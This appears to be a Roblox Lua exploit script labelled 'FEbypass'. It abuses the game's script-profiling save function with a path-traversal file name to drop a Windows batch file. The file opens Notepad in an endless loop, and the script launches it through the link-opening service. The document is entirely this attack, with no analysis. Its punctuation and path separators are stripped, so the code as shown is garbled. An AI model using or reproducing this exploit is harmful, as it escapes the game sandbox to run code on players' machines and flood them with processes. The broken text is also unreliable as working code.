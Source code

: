 # FEbypass
local LinkingService = gameGetService(LinkingService)
local ScriptContext = gameGetService(ScriptContext)

local scriptContent = [[@ECHO off
top
START %SystemRoot%system32notepad.exe
GOTO top
]]

local payload = ScriptContextSaveScriptProfilingData(scriptContent, ........test.bat)
LinkingServiceOpenUrl(payload)
